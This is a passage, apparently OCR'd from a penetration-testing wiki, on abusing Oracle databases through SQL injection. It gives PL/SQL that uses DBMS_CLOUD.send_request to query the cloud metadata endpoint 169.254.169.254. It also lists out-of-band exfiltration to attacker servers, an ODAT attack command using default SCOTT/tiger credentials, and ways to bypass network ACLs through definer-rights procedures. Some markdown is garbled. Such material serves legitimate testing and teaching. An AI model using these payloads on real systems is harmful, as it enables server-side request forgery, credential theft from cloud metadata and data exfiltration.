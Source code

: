 ```
      username        => 'ignored',
      password        => 'ignored');
END;
/

DECLARE
  resp  DBMS_CLOUD_TYPES.resp;
BEGIN
  resp := DBMS_CLOUD.send_request(
             credential_name => 'NOAUTH',
             uri             => 'http://169.254.169.254/latest/meta-data/',
             method          => 'GET',
             timeout         => 3);
  dbms_output.put_line(DBMS_CLOUD.get_response_text(resp));
END;
/
```
```
Because `SEND_REQUEST` allows arbitrary target URIs it can be abused via SQLi for:
1. Internal port scanning / SSRF to cloud metadata services.
2. Out-of-band exfiltration over HTTPS (use Burp Collaborator or an `ngrok` tunnel).
3. Callbacks to attacker servers even when older callout packages are disabled by ACLs.

ℹ️ If you only have a classical on-prem 19c but can create Java stored procedures, you can sometimes install `DBMS_CLOUD` from the OCI client bundle — useful in some engagements.

### Automating the attack surface with **ODAT**

[[https://github.com/quentinhardy/odat) has kept pace with modern releases (tested up to 19c, 5.1.1 – Apr-2022|ODAT – Oracle Database Attacking Tool]].  The `–utl_http`, `–utl_tcp`, `–httpuritype` and newer `–dbms_cloud` modules automatically:
* Detect usable callout packages/ACL grants.
* Trigger DNS & HTTP callbacks for blind extraction.
* Generate ready-to-copy SQL payloads for Burp/SQLMap.

Example: quick OOB check with default creds (takes care of ACL enumeration in the background):

```bash
odat all -s 10.10.10.5 -p 1521 -d XE -U SCOTT -P tiger --modules oob
```
```
### Recent network ACL restrictions & bypasses

Oracle tightened default Network ACLs in the July 2023 CPU — unprivileged accounts now receive `ORA-24247: network access denied by access control list` by default.  Two patterns still allow callouts through SQLi:
1. Target account owns an ACL entry (`DBMS_NETWORK_ACL_ADMIN.create_acl`) that was added by a developer for integrations.
2. The attacker abuses a high-privilege PL/SQL definer-rights routine (e.g. in a custom application) that *already* has `AUTHID DEFINER` and the necessary grants.

If you encounter `ORA-24247` during exploitation always search for reusable procedures:

```sql
SELECT owner, object_name
FROM   dba_objects
WHERE  object_type = 'PROCEDURE'
  AND  authid       = 'DEFINER';
```
```
(in many audits at least one reporting/export procedure had the needed rights).

---

```